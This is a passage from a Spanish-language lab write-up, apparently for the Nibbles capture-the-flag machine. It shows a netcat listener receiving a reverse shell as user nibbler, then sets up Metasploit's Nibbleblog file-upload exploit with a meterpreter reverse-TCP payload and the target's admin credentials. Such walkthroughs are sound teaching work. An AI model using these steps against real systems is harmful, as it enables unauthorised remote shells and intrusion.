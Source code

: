 * Observa el resultado:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.75] 59182
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami                      
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```
Ya solamente falta hacer la terminal más interactiva, pero ya sabes como.

<br>

<h3 id="Forma3">Probando Exploit: Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)</h3>

Resulta que ya existe una forma de subir archivos de forma automatizada con **Metasploit**, vamos a probar este exploit.

Vamos por pasos:
* Entra en Metasploit Framework:
```bash
msfconsole
```

* Busca el Exploit:

```bash
msf6 > search nibbleblog
Matching Modules
================
   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) >
```

* Configuralo con los parámetros necesarios:
```bash
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
TARGETURI => /nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST Tu_IP
LHOST => Tu_IP
```
